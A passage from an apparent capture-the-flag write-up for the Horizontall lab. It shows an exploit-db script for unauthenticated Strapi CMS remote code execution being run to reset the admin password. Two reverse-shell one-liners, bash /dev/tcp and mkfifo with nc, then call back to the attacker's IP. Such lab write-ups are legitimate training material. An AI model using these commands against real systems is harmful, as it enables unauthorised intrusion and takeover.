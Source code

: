 Let's grab that last exploit and have a look:

```text
┌──(root💀kali)-[~/htb/horizontall]
└─# searchsploit -m multiple/webapps/50239.py
  Exploit: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50239
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50239.py
File Type: Python script, ASCII text executable
Copied to: /root/htb/horizontall/50239.py
```

## Exploiting Strapi

Reading the script we just execute it and point at the website:

```text
┌──(root💀kali)-[~/htb/horizontall]
└─# python3 50239.py http://api-prod.horizontall.htb 
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGci<SNIP>swArk82os
$>
```

The exploit has reset the admin users password and given us a command prompt:

```text
$> whoami
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```

Ok so I can't use it to output to the terminal, let's try a shell:

```text
$> bash -i >& /dev/tcp/10.10.14.214/4444 0>&1
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```

## Reverse Shell

I didn't get a connection from that one, try another type:

```text
$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.214 4444 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```
